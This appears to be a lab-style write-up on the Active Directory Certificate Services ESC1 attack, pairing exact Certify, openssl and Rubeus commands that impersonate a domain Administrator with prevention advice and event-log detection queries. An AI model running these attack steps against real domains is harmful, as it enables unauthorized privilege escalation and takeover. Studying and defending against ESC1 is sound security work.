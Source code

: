 ## Description
The **Certified Pre-Owned** research paper by SpectreOps highlighted Active Directory Certificate Services (AD CS) as a popular attack vector due to its common misconfigurations. Certificates are highly advantageous for attackers because:
- Certificates are valid long-term, often for a year or more.
- User password resets don’t invalidate certificates.
- Misconfigured templates allow attackers to obtain certificates for other users.
- Compromising a Certificate Authority (CA) private key enables forging "Golden Certificates."

One notable privilege escalation attack method is **ESC1**, which involves:
- No issuance requirements.
- Enrollable client authentication/smart card logon OID templates.
- The `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag.

## Attack Execution: ESC1 Example

1. **Scan for Vulnerabilities** with **Certify**:
    ```powershell
    .\Certify.exe find /vulnerable
    ```
    The output will identify vulnerable certificate templates. Here, **UserCert** is identified as vulnerable due to:
    - Accessible by all domain users.
    - Allows requester-supplied SAN (allows impersonating other users).
    - No manager approval required.
    - Supports client authentication for login.

2. **Abuse the Template** by requesting a certificate for the "Administrator" user:
    ```powershell
    .\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
    ```
    This generates a PEM-format certificate, which can be converted to **PFX** for compatibility with tools like **Rubeus**.

3. **Convert PEM to PFX**:
    ```bash
    sed -i 's/\s\s\+/\n/g' cert.pem
    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    ```

4. **Use Rubeus to Request a TGT** for the Administrator account:
    ```powershell
    .\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
    ```
    Successful authentication as the Administrator will allow access to resources on DC1, such as listing contents of `\\dc1\c$`.

## Prevention
Preventing the ESC1 attack involves:
- Disabling `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` in certificate templates.
- Enforcing **CA certificate manager approval** for certificate issuance to ensure only legitimate requests are approved.

Regular PKI environment scans with **Certify** or similar tools are recommended to identify and mitigate PKI misconfigurations.

## Detection
1. **Event IDs 4886 and 4887**: AD logs events for certificate requests (4886) and certificate issuance (4887). These logs indicate certificate issuance activity but do not specify SAN values.
2. **Listing Issued Certificates**: Checking the CA’s issued certificate list can reveal certificates issued with the vulnerable template, although SAN details require manual review.
3. **Event ID 4768**: Logs the TGT request when the certificate is used for authentication.

To automate detection, use **certutil**:
```powershell
certutil -view
```

Example to find logs programmatically:
```powershell
$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
$events[0] | Format-List -Property *
```

## Remote Session Monitoring
If direct GUI access is unavailable, use **PSSession** to access the PKI machine and query for certificate issuance events:
```powershell
New-PSSession -ComputerName PKI
Enter-PSSession -ComputerName PKI
Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4887'}
```

---
**Note**: Monitoring and auditing PKI activities for unauthorized certificate issuance is critical to maintaining a secure AD CS environment.